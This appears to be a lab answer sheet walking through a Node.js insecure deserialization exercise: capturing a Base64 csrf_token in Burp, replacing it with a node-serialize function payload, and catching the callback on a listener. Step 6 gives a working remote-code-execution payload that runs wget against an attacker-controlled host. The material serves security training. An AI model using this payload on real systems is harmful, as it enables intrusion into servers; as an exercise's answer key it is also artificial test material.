









# Node Deserialization Answersheet

**Step 1:** Navigate to "Node Website: 16663" link.<br />
<kbd>  </kbd>
<br /> <br />

**Step 2:** Provide the required details and click on "Register" button.<br />
<kbd>  </kbd>
<br /> <br />

**Step 3:** Capture the request in Burp proxy and capture the csrf_token parameter.<br />
<kbd>  </kbd>
<br /> <br />

**Step 4:** Observe the value while converting the Base64 information.<br />
<kbd>  </kbd>
<br /> <br />

**Step 5:** Send the request to Burp repeater captured in **Step 3**.<br />
<kbd>  </kbd>
<br /> <br />

**Step 6:** Create the node.js serialized payload using the following information.<br />
```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('wget http://192.168.X.206:9999/test /',function(error, stdout, stderr) {console.log(stdout) });\n }()"}
```
<kbd>  </kbd>
<br /> <br />

**Step 7:** Start the listener for reverse shell.<br />
<kbd>  </kbd>
<br /> <br />

**Step 8:** Provide the payload generated in **Step 6** in "csrf_token" parameter.<br />
<kbd>  </kbd>
<br /> <br />

**Step 9:** The request information will be received in reverse shell.<br />
<kbd>  </kbd>
<br /> <br />